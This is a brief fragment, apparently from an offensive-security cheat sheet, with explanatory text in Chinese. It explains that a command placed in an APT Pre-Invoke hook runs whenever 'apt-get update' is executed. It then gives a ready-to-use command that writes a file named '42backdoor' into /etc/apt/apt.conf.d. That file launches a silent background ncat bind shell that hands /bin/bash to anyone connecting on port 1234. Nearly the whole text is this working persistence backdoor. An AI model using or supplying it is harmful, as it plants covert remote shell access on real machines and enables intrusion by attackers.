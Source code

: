 	如果您可以使用以下命令在apt.conf.d目录中创建一个文件：APT::Update::Pre-Invoke {"CMD"}; 下次"apt-get update"完成时，CMD 将被执行！

	echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
